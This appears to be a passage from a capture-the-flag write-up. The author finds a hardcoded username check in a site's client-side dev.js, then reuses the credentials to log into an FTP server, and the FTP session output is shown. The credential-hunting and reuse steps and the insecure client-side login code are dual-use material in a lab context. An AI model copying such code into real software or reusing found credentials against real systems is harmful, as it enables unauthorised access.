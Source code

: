### `dev.js`... Interesting, let's see what's in that javascript file, maybe some forgotten login credentials or consequences of insecure design?
```js
// ... redacted for brevity
loginButton.addEventListener("click", (e) => {
    e.preventDefault();
    const username = loginForm.username.value;
    const password = loginForm.password.value;

    if (username === "siemDev" && password === "<redacted>") {
        window.location.href = "/dev1243224123123/devNotes37370.txt";
    } else {
        loginErrorMsg.style.opacity = 1;
    }
})
```

### Login credentials and another note that we can access directly! Let's check the note and remember the credentials.
![Screenshot](./images/screen5.png)

### `Stop reusing credentials`... What if we try to log in to the ftp server with these credentials? ?
```bash
ftp ftp://siemDev@<ip>:37370
```

### ***FTP Result:***
```
Connected to <ip>.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp> ls
229 Entering Extended Passive Mode (|||50332|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000         7272 Mar 06  2023 siemFTP.pcapng
-rw-rw-r--    1 1000     1000      1978716 Mar 06  2023 siemHTTP1.pcapng
-rw-rw-r--    1 1000     1000      1972448 Mar 06  2023 siemHTTP2.pcapng
226 Directory send OK.
```
